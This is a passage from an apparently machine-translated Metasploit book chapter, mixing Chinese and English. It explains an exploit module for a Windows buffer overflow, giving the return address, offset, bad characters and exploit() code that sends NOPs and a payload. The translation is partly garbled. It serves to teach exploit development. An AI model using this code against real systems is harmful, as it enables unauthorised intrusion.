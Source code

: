 ```
   [ 
         Opt::RPORT(200) 
   ]) 
  end 
```

在开始编写代码之前，让我们先看看本模块中使用的库：

| **包含报表** | **路径** | **用法** |
| `Msf::Exploit::Remote::Tcp` | `/lib/msf/core/exploit/tcp.rb` | TCP 库文件提供基本的 TCP 功能，如连接、断开连接、写入数据等 |

与我们在[第 12 章](12.html)*重塑 Metasploit*中构建模块的方式相同，利用模块首先包括必要的库路径，然后包括这些路径中所需的文件。我们将模块类型定义为`Msf::Exploit::Remote`，表示远程攻击。接下来，我们有`initialize`构造函数方法，其中定义了名称、描述、作者信息等。然而，我们可以在`initialize`方法中看到很多新的声明。让我们看看它们是什么：

| **声明** | **值** | **用法** |
| `Platform` | `win` | 定义利用漏洞攻击的目标平台类型。赢得的价值表示该漏洞可在基于 Windows 的操作系统上使用。 |
| `disclosure date` | `Mar 04 2018` | The date of disclosure of the vulnerability. |
| `Targets` | `Ret` | The `Ret` field for a particular OS defines the JMP ESP address we found in the previous section. |
| `0x71AB9372` |
| `Targets` | `Offset` | The `Offset` field for a particular OS defines the number of bytes required to fill the buffer just before overwriting the EIP. We found this value in the previous section. |
| `520` |
| `Payload` | `space` | The `space` variable in the payload declaration defines the amount of maximum space the payload can use. This is relatively important since sometimes we have insufficient space to load our shellcode. |
| `1000` |
| `Payload` | `BadChars` | The `BadChars` variable in the payload declaration defines the bad characters to avoid in the payload generation process. The practice of declaring bad characters will ensure stability and removal of bytes that may cause the application to crash or no execution of the payload to take place. |
| `\x00\xff` |

We also define the default port for the exploit module as `200` in the `register_options` section. Let's have a look at the remaining code:

```
def exploit 
    connect 
    buf = make_nops(target['Offset']) 
    buf = buf + [target['Ret']].pack('V') + make_nops(30) + payload.encoded 
    sock.put(buf) 
    handler 
    disconnect 
  end 
end
```

Let's understand some of the important functions used in the preceding code:

| **Function** | **Library** | **Usage** |
| `make_nops` | `/lib/msf/core/exploit.rb` | 此方法通过将`n`作为计数来创建`n`个 NOP |
| `Connect` | `/lib/msf/core/exploit/tcp.rb` | 调用此方法以建立到目标的连接 |
| `disconnect` | `/lib/msf/core/exploit/tcp.rb` | 调用此方法以断开与目标的现有连接 |
| `handler` | `/lib/msf/core/exploit.rb` | 这会将连接传递到关联的有效负载处理程序，以检查利用漏洞是否成功以及是否建立了连接 |
